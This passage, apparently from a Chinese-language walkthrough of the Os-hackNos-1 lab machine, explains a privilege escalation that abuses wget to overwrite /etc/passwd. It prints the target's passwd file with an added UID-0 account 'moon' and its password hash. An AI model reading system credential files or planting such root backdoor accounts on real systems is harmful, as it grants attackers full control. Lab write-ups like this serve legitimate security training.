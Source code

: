 ![image-20230628232332862](Os-hackNos-1.assets\image-20230628232332862.png)

发现wget普通用户也可执行

那么提权的方式就是通过下载目标靶机上的passwd，然后构造一个有root权限的用户加入到构造的passwd文件中，然后使用wget -O将内容重定向输入到/etc/passwd中



首先通过cat /etc/passwd获取靶机密码

```
www-data@hackNos:/var/www/html/drupal$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
james:x:1000:1000:james,,,:/home/james:/bin/bash
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:111:118:MySQL Server,,,:/nonexistent:/bin/false
moon:$1$moon$8F2YI9c3zhkkS9SOsKawY0:0:0:root:/root:/bin/bash
```